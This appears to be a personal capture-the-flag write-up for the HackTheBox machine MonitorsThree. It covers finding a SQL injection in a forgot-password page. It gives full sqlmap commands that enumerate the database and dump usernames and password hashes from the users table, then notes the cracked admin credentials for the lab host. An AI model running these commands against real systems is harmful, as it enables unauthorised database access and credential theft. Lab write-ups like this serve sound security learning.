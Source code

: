 ![[Pasted image 20241115181540.png]]

Now lets see this web application now 

<hr>

### Web Application 

Default page

![[Pasted image 20241116020230.png]]

Found this login page here lets see this 

![[Pasted image 20241116020318.png]]

Didnt find a vulnerability here but there is this forgot password page 

![[Pasted image 20241116020418.png]]

So here found a SQL injection i think cuz it took a bit longer when i tested it with it

Saved a request and tested with URL as well 

```bash
sqlmap -u 'http://monitorsthree.htb/forgot_password.php' --forms --dbs --batch --level 5 --risk 3 --threads 10
```

![[Pasted image 20241116020536.png]]

This was very slow so got a request then ran that to get the tables 

```bash
sqlmap -r ~/Documents/Notes/Hands-on-Hacking/HacktheBox/MonitorsThree/test.sql --batch -D monitorsthree_db --tables --threads 10 --level 5 --risk 3
```

![[Pasted image 20241116020645.png]]

Lets get the username and password out of users table here
Took almost 4hr but dumped it finally

```bash
sqlmap -u 'http://monitorsthree.htb/forgot_password.php' --forms -D monitorsthree_db -T users -C username,password --dump --batch --level 5 --risk 3 --threads 10
```

![[Pasted image 20241116020909.png]]

Lets crack this using crackstation

![[Pasted image 20241116020945.png]]

>[!Warning] Login Creds
>Username : admin
>Password : greencacti2001
